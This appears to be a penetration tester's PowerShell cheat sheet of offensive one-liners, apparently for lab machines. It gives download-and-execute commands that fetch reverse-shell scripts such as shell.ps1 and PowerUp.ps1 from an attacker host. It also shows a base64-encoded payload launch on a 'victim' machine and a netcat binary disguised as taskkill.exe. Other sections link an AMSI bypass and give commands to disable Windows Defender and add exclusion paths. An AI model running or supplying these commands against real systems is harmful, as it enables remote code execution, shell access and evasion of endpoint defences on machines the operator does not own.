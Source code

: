 https://lolbas-project.github.io/#


## Download File

```powershell
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
```

```powershell
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
```

## Reverse Shell

### Download and execute #reverseshell 
```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('http://<IP>:<port>/ipw.ps1')"

echo IEX(New-Object Net.WebClient).DownloadString('http://<IP>:<port>/PowerUp.ps1') | powershell -noprofile - #From cmd download and execute

iex (iwr '<IP>:<port>/ipw.ps1') #From PSv3
```

### base64 copy paste from Linux #reverseshell 

```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0 # Run on linux machine

powershell -nop -enc <BASE64_ENCODED_PAYLOAD> # Run on victim windows
```


## Windows Features #windows

#### PS Constrained Language Mode

Check
```powershell
$ExecutionContext.SessionState.LanguageMode
#Values could be: FullLanguage or ConstrainedLanguage
```

#### AMSI Bypass

https://amsi.fail/

#### Enable WinRM

```powershell
enable-psremoting -force #This enables winrm

# Change NetWorkConnection Category to Private
#Requires -RunasAdministrator

Get-NetConnectionProfile |
  Where{ $_.NetWorkCategory -ne 'Private'} |
  ForEach {
    $_
    $_|Set-NetConnectionProfile -NetWorkCategory Private -Confirm
  }
```

#### Disable Defender

```powershell
# Check status
Get-MpComputerStatus
Get-MpPreference | select Exclusion* | fl #Check exclusions
# Disable
Set-MpPreference -DisableRealtimeMonitoring $true
#To completely disable Windows Defender on a computer, use the command:
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
# Set exclusion path
Add-MpPreference -ExclusionPath "C:\users\public\documents\magichk"
Set-MpPreference -ExclusionPath "C:\users\public\documents\magichk"

# Check exclusions configured via GPO
Parse-PolFile .\Registry.pol

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions
ValueName : Exclusions_Paths
ValueType : REG_DWORD
ValueLength : 4
ValueData : 1

KeyName : Software\Policies\Microsoft\Windows Defender\Exclusions\Paths
ValueName : C:\Windows\Temp
ValueType : REG_SZ
ValueLength : 4
ValueData : 0
```



WinPeas needs .Net 4.0 to run properly

